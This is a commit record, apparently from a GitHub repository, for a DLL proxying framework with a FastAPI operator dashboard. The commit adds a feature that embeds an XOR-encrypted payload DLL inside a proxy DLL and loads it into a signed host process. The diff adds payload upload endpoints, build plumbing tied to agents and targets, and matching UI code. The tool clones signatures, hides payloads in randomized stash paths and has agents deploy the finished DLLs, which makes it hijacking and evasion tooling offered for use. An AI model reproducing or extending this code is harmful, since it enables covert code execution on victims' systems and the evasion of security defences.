

Before and after one commit to PatchRequest/DLLProxyFramework, a FastAPI app: page / in a window 1280 px wide. Shown: the top 300 px of the page. Run offline with FastAPI, Linux system fonts and the light colour scheme; data that the repository does not hold is empty.

Commit message:
Embed and execute payload DLL in-process via --payload-dll
Adds the ability to embed an arbitrary payload DLL as a second XOR-encrypted
PE resource (IDR_PAYLOAD_BIN) alongside the original DLL. At runtime the
payload is extracted to a randomized stash path and LoadLibrary'd into the
host process, keeping execution within the signed process context. An
optional --payload-export flag calls a named export after loading.

Server pipeline wired end-to-end: operator uploads a payload DLL via the
web UI, builds automatically embed it, and the agent deploys a single
self-contained proxy DLL. Also fixes MSVC build_msvc.bat returning
non-zero from non-fatal sigclone failures.

Test suite extended with 4 new tests (11-14) covering MSVC/GCC,
block/non-block, export forwarding + payload execution.

```diff
--- a/generator/templates/build_msvc.bat.j2
+++ b/generator/templates/build_msvc.bat.j2
@@ -40,7 +40,7 @@ if errorlevel 1 (
     echo [+] Signature cloned from {{ original_dll_filename }}
 )
 {% endif %}
-goto :eof
+exit /b 0
 
 :error
 echo [-] Build failed!
--- a/generator/templates/proxy.c.j2
+++ b/generator/templates/proxy.c.j2
@@ -154,9 +154,9 @@ static void init_proxy(void) {
     DuplicateHandle(GetCurrentProcess(), GetCurrentThread(),
                     GetCurrentProcess(), &hMainThread,
                     THREAD_SUSPEND_RESUME, FALSE, 0);
-    hPayloadThread = CreateThread(NULL, 0, payload_wrapper, NULL, 0, NULL);
+    hPayloadThread = CreateThread(NULL, 0, payload_wrapper, (LPVOID)hSelf, 0, NULL);
 {% else %}
-    hPayloadThread = CreateThread(NULL, 0, payload_main, NULL, 0, NULL);
+    hPayloadThread = CreateThread(NULL, 0, payload_main, (LPVOID)hSelf, 0, NULL);
 {% endif %}
 {% endif %}
 }
--- a/generator/templates/resource.h.j2
+++ b/generator/templates/resource.h.j2
@@ -3,5 +3,8 @@
 #define RESOURCE_H
 
 #define IDR_ORIGINAL_DLL 101
+{% if payload_bin_enabled %}
+#define IDR_PAYLOAD_BIN  102
+{% endif %}
 
 #endif /* RESOURCE_H */
--- a/generator/templates/resource.rc.j2
+++ b/generator/templates/resource.rc.j2
@@ -4,6 +4,9 @@
 
 {% if embed_enabled %}
 IDR_ORIGINAL_DLL BINARY "{{ original_dll_filename }}"
+{% endif %}
+{% if payload_bin_enabled %}
+IDR_PAYLOAD_BIN BINARY "{{ payload_bin_filename }}"
 {% endif %}
 
 {% if version_info %}
--- a/server/app.py
+++ b/server/app.py
@@ -12,6 +12,9 @@ Endpoints:
     GET  /api/clients/{id}     client detail + targets
     POST /api/select           select target -> creates upload task for client
     GET  /api/builds           list all builds
+    POST /api/payload          upload a payload DLL for embedding
+    GET  /api/payload          get current payload config
+    DELETE /api/payload        remove configured payload
 
   Web UI:
     GET  /                     dashboard
@@ -21,6 +24,7 @@ import asyncio
 import traceback
 from pathlib import Path
 
+import pefile
 from fastapi import FastAPI, UploadFile, File, Form, HTTPException, Request
 from fastapi.responses import FileResponse, HTMLResponse
 from fastapi.staticfiles import StaticFiles
@@ -32,6 +36,7 @@ app = FastAPI(title="DLL Proxy Deploy")
 store = Store()
 
 STATIC_DIR = Path(__file__).parent / "static"
+PAYLOAD_DIR = BUILDS_DIR / "_payloads"
 app.mount("/static", StaticFiles(directory=str(STATIC_DIR)), name="static")
 
 
@@ -113,12 +118,18 @@ async def upload_dll(
 def _run_build(build, dll_name: str, arch: str, agent_id: str, target_id: int):
     """Run proxy generation + compilation (blocking, runs in thread)."""
     try:
-        print(f"[BUILD] Starting build {build.id} for {dll_name} ({arch})", flush=True)
+        payload_dll = Path(build.payload_dll_path) if build.payload_dll_path else None
+        payload_exp = build.payload_export or None
+
+        print(f"[BUILD] Starting build {build.id} for {dll_name} ({arch})"
+              f"{' + payload-dll' if payload_dll else ''}", flush=True)
         proxy_path = build_proxy(
             build_id=build.id,
             original_dll_path=Path(build.original_dll_path),
             dll_name=dll_name,
             arch=arch,
+            payload_dll_path=payload_dll,
+            payload_export=payload_exp,
         )
         build.proxy_dll_path = str(proxy_path)
         build.status = BuildStatus.READY
@@ -206,6 +217,7 @@ async def select_target(request: Request):
     data = await request.json()
     agent_id = data.get("client_id", "") or data.get("agent_id", "")
     target_id = data.get("target_id", 0)
+    payload_export = data.get("payload_export", "") or store.payload_export
 
     agent = store.get_agent(agent_id)
     if not agent:
@@ -214,8 +226,71 @@ async def select_target(request: Request):
     if not target:
         raise HTTPException(404, "target not found")
 
-    build = store.create_build(agent_id, target_id)
-    return {"status": "ok", "build_id": build.id, "message": "upload task queued"}
+    build = store.create_build(
+        agent_id, target_id,
+        payload_dll_path=store.payload_dll_path,
+        payload_export=payload_export,
+    )
+    has_payload = bool(store.payload_dll_path)
+    msg = "upload task queued"
+    if has_payload:
+        msg += f" (payload: {Path(store.payload_dll_path).name})"
+    return {"status": "ok", "build_id": build.id, "message": msg}
+
+
+# ── Payload DLL Management ───────────────────────────────────
+
+@app.post("/api/payload")
+async def upload_payload(
+    file: UploadFile = File(...),
+    export_name: str = Form(""),
+):
+    """Upload a payload DLL to embed in future builds."""
+    PAYLOAD_DIR.mkdir(parents=True, exist_ok=True)
+    payload_path = PAYLOAD_DIR / file.filename
+    content = await file.read()
+    with open(payload_path, "wb") as f:
+        f.write(content)
+
+    try:
+        pe = pefile.PE(str(payload_path), fast_load=True)
+        is_dll = bool(pe.FILE_HEADER.Characteristics & 0x2000)
+        pe.close()
+        if not is_dll:
+            payload_path.unlink()
+            raise HTTPException(400, "File is an EXE, not a DLL")
+    except pefile.PEFormatError:
+        payload_path.unlink()
+        raise HTTPException(400, "Not a valid PE file")
+
+    store.payload_dll_path = str(payload_path)
+    store.payload_export = export_name
+    print(f"[PAYLOAD] Configured: {file.filename}"
+          f"{' export=' + export_name if export_name else ''}", flush=True)
+    return {"status": "ok", "filename": file.filename, "export": export_name}
+
+
+@app.get("/api/payload")
+async def get_payload():
+    if store.payload_dll_path and Path(store.payload_dll_path).exists():
+        return {
+            "configured": True,
+            "filename": Path(store.payload_dll_path).name,
+            "export": store.payload_export,
+        }
+    return {"configured": False, "filename": "", "export": ""}
+
+
+@app.delete("/api/payload")
+async def remove_payload():
+    if store.payload_dll_path:
+        p = Path(store.payload_dll_path)
+        if p.exists():
+            p.unlink()
+    store.payload_dll_path = ""
+    store.payload_export = ""
+    print("[PAYLOAD] Removed", flush=True)
+    return {"status": "ok"}
 
 
 # ── Web UI ────────────────────────────────────────────────────
--- a/server/static/index.html
+++ b/server/static/index.html
@@ -31,6 +31,7 @@
   .tag-replace { background: rgba(210,153,34,0.15); color: var(--yellow); }
   .tag-search { background: rgba(88,166,255,0.15); color: var(--accent); }
   .tag-phantom { background: rgba(248,81,73,0.15); color: var(--red); }
+  .tag-payload { background: rgba(63,185,80,0.15); color: var(--green); }
 
   .status { font-weight: bold; }
   .status-waiting_upload { color: var(--yellow); }
@@ -44,6 +45,7 @@
   button:hover { opacity: 0.85; }
   button:disabled { opacity: 0.4; cursor: not-allowed; }
   button.small { padding: 3px 10px; font-size: 11px; }
+  button.danger { background: var(--red); }
 
   .agent-row { cursor: pointer; }
   .agent-row:hover { background: rgba(88,166,255,0.08); }
@@ -52,6 +54,11 @@
   .topbar { display: flex; justify-content: space-between; align-items: center; margin-bottom: 16px; }
   .back { color: var(--accent); cursor: pointer; font-size: 13px; }
   .back:hover { text-decoration: underline; }
+
+  .payload-bar { display: flex; align-items: center; gap: 12px; flex-wrap: wrap; }
+  .payload-bar input[type="file"] { font-family: inherit; font-size: 12px; color: var(--text); }
+  .payload-bar input[type="text"] { background: var(--bg); border: 1px solid var(--border); color: var(--text);
+                                     padding: 4px 8px; border-radius: 4px; font-family: inherit; font-size: 12px; width: 160px; }
 
   #toast { position: fixed; top: 20px; right: 20px; background: var(--surface);
            border: 1px solid var(--green); color: var(--green); padding: 12px 20px;
@@ -62,6 +69,7 @@
 
 <div class="container">
   <h1>// DLL Proxy Deploy</h1>
+  <div id="payload-panel"></div>
   <div id="content"></div>
 </div>
 <div id="toast"></div>
@@ -92,6 +100,47 @@ async function api(path, opts) {
   const r = await fetch(API + path, opts);
   if (!r.ok) throw new Error(await r.text());
   return r.json();
+}
+
+// ── Payload DLL Panel ──
+async function refreshPayload() {
+  const data = await api('/api/payload');
+  const el = document.getElementById('payload-panel');
+  if (data.configured) {
+    const exp = data.export ? ` &rarr; ${data.export}()` : '';
+    el.innerHTML = `<div class="panel"><div class="payload-bar">
+      <span class="tag tag-payload">PAYLOAD</span>
+      <span><strong>${data.filename}</strong>${exp}</span>
+      <button class="small danger" onclick="removePayload()">Remove</button>
+      </div></div>`;
+  } else {
+    el.innerHTML = `<div class="panel"><div class="payload-bar">
+      <span class="meta">No payload DLL configured &mdash; builds will use proof payload</span>
+      <input type="file" id="payloadFile" accept=".dll">
+      <input type="text" id="payloadExport" placeholder="Export (optional)">
+      <button class="small" onclick="uploadPayload()">Upload</button>
+      </div></div>`;
+  }
+}
+
+async function uploadPayload() {
+  const fileInput = document.getElementById('payloadFile');
+  const exportInput = document.getElementById('payloadExport');
+  if (!fileInput.files.length) { toast('Select a DLL file', false); return; }
+  const form = new FormData();
+  form.append('file', fileInput.files[0]);
+  form.append('export_name', exportInput.value);
+  try {
+    await fetch(API + '/api/payload', { method: 'POST', body: form });
+    toast('Payload DLL configured');
+    refreshPayload();
+  } catch(e) { toast('Error: ' + e.message, false); }
+}
+
+async function removePayload() {
+  await fetch(API + '/api/payload', { method: 'DELETE' });
+  toast('Payload removed');
+  refreshPayload();
 }
 
 // ── Agent List ──
@@ -131,13 +180,16 @@ async function showClient(clientId) {
 
   // Builds
   if (data.builds.length > 0) {
-    html += '<h2>Builds</h2><div class="panel"><table><tr><th>ID</th><th>Target</th><th>Status</th></tr>';
+    html += '<h2>Builds</h2><div class="panel"><table><tr><th>ID</th><th>Target</th><th>Payload</th><th>Status</th></tr>';
     for (const b of data.builds) {
       const target = data.targets.find(t => t.id === b.target_id);
       const tname = target ? `${target.dll_name}` : `#${b.target_id}`;
-      html += `<tr><td class="meta">${b.id}</td><td>${tname}</td>
+      const payloadCol = b.payload_dll_path
+        ? `<span class="tag tag-payload">${b.payload_dll_path.split(/[\\/]/).pop()}</span>`
+        : '<span class="meta">proof</span>';
+      html += `<tr><td class="meta">${b.id}</td><td>${tname}</td><td>${payloadCol}</td>
         <td><span class="status status-${b.status}">${b.status}</span></td></tr>`;
-      if (b.error) html += `<tr><td colspan=3 class="meta" style="color:var(--red)">${b.error}</td></tr>`;
+      if (b.error) html += `<tr><td colspan=4 class="meta" style="color:var(--red)">${b.error}</td></tr>`;
     }
     html += '</table></div>';
   }
@@ -186,6 +238,7 @@ async function selectTarget(clientId, targetId) {
 }
 
 // Boot
+refreshPayload();
 showClients();
 </script>
 </body>
```
Also changed, not shown: embedder/resource_embedder.py (+7 -0 lines), generate.py (+52 -4 lines), generator/codegen.py (+18 -2 lines), generator/templates/payload.c.j2 (+85 -0 lines), server/builder.py (+10 -2 lines), server/models.py (+9 -1 lines), 2 other files.
